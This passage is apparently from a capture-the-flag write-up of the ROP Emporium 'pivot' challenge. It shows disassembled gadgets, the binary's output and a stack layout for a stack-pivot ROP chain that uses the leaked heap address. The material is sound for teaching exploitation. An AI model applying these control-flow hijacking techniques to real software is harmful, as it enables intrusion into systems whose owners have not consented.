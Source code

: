 Looking at the usefulGadgets section we see the following.

```
pwndbg> disass usefulGadgets 
Dump of assembler code for function usefulGadgets:
   0x00000000004009bb <+0>:     pop    rax
   0x00000000004009bc <+1>:     ret    
   0x00000000004009bd <+2>:     xchg   rsp,rax
   0x00000000004009bf <+4>:     ret    
   0x00000000004009c0 <+5>:     mov    rax,QWORD PTR [rax]
   0x00000000004009c3 <+8>:     ret    
   0x00000000004009c4 <+9>:     add    rax,rbp
   0x00000000004009c7 <+12>:    ret    
   0x00000000004009c8 <+13>:    nop    DWORD PTR [rax+rax*1+0x0]
```

Also running piviot gives the following
```
./pivot
pivot by ROP Emporium
x86_64

Call ret2win() from libpivot
The Old Gods kindly bestow upon you a place to pivot: 0x7fb54f72cf10
Send a ROP chain now and it will land there
> 
Thank you!

Now please send your stack smash
> 
Thank you!

Exiting
```

A quick google of the `xchg` instruction shows that it is exchange. Basically it just swaps the values. Combine that with the pop rax gadget we have, and we can make the stack pointer whatever value we want. If you look through the output of the pivot binary, it actually prints off the location on the heap that we store our second chain in too. This means we just have to make the stack pointer that value.

An important note, that value changes every time the binary is run, so you can not just hard code it. You have to parse the binaries outputs to craft your payload.



```
         | stack          |
         | -------------- |
32 bytes | start buffer   |
8  bytes | base pointer   | 
8  bytes | pop rax gadget |
8  bytes | rax value      | # This must be calculated from the binaries print out
8  bytes | xchg gadget    | 
8  bytes | -------------- |

```

